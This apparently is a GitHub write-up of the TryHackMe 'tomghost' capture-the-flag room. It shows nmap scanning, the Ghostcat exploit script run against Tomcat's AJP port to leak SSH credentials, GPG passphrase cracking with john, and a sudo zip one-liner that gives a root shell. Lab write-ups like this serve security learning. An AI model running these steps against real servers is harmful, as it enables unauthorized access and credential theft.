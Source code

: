 # TryHackMe-tomghost-CTF

Writeup for CTF tomghost avaiable on https://www.tryhackme.com (https://www.tryhackme.com/room/tomghost)

The challange is to find the flags contained user.txt and root.txt

First of all i will set nash variable for my ip and for victims ip so I will call them $V_IP (victims) $M_IP (my tryhackme vpn IP).

I will nmap scan the machine (I'm root so the scan would be syn scan by default) saving the output in nmap_syn_def

`nmap -A $V_IP -oN nmap_syn_def`

Ouput is:

>PORT     STATE SERVICE    VERSION
>22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
>| ssh-hostkey: 
>|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
>|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
>|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
>53/tcp   open  tcpwrapped
>8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
>| ajp-methods: 
>|_  Supported methods: GET HEAD POST OPTIONS
>8080/tcp open  http       Apache Tomcat 9.0.30
>|_http-favicon: Apache Tomcat
>|_http-open-proxy: Proxy might be redirecting requests
>|_http-title: Apache Tomcat/9.0.30

I will visit $V_IP:8080 and try to find hidden paths with dirb, but neither I found somethin useful neither I could access tomcat manager paths

On the web I found that "ghostcat" is vulnerability for Tomcat (here for details -> https://www.chaitin.cn/en/ghostcat)

using searchsploit i find a python script exploting this vulnerability, it requires victim ip and ajp tomcat port as parameters, I copied it in my working directory and ran it:

`python 48143.py -p 8009 $V_IP`

It gives back some html containg some credentials:

...
  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
	skyfu*k:<password>
  </description>
...

 Those are valid ssh credentials for $V_IP so I'll use them to gain first access.
  
skyfu*k home directory contains two files: "credential.pgp" "tryhackme.asc", I will inspect them later, first step I use find to locate "user.txt" as I'm expecting to need no more exploitation to find it. In fact it's in user merlin's home.
  
Now it's time to inspect the other files, pgp is actually a gpg encrypted file and I guess tryhackme.asc is the secret key that you need to use for decryption.

I will import it:
  
`gpg --import tryhackme.asc`
  
and try to decpryt credential file:
  
`gpg --decpryt credentials.pgp`
  
output is:
  
>You need a passphrase to unlock the secret key for
>user: "tryhackme <stuxnet@tryhackme.com>"
>1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11 (main key ID C6707170)
>
>gpg: gpg-agent is not available in this session
>Enter passphrase: 
  
I return to my host shell in order to get the secret key via scp:
  
`scp skyfuc*k$V_IP:/home/skyfu*k/tryhackme.asc .`
  
I will use gpg2john to obtain a john crackable file and crack it using rockyou.txt wordlist
  
`gpg2john tryhackme.asc > pgphash`
 
`john pgphash --wordlist=/usr/share/wordlist/rockyou.txt`
  
 It cracks the passphrase for user tryhackme, I'll go back to victims machine and use it to gpg decrypt credental.pgp, I've obtained the password for user merlin.
  
 I will now ssh into the victims machine using merlin's credentials.
  
 I will look at merlin sudo's permissions:
 
 `sudo -l -l`
  
  output is:
  
>  Matching Defaults entries for merlin on ubuntu:
 >   env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

>User merlin may run the following commands on ubuntu:
 >   (root : root) NOPASSWD: /usr/bin/zip
  
  I'll go to GTFOBins to see if I can use it to do some escalation (https://gtfobins.github.io/gtfobins/zip/#sudo)

I'll use what I found:
  
`sudo zip $(mktemp -u) /etc/hosts -T -TT 'sh #'`
`whoami`
> root
  
Now I'm able to cat /root/root.txtand we're done
